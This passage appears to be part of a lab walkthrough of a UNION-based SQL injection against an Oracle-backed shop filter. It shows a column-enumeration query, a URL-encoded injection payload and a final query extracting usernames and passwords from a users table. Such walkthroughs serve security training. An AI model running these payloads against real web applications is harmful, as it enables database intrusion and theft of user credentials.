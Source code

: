 ![img](media/a34ef035b6a1aec996bee687c0a03f86.png)

The interesting one seems “USERS_XWRQEE”.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT COLUMN_NAME from all_tab_columns WHERE table_name = 'USERS_XWRQEE'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Pets'+union+all+select+'1',COLUMN_NAME+from+all_tab_columns+WHERE+table_name+=+'USERS_XWRQEE'--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/2cb582cc25be0ce0e2a884e96f2d236e.png)

Finally:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT USERNAME_KIWRQE,PASSWORD_OCABHB from USERS_XWRQEE
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
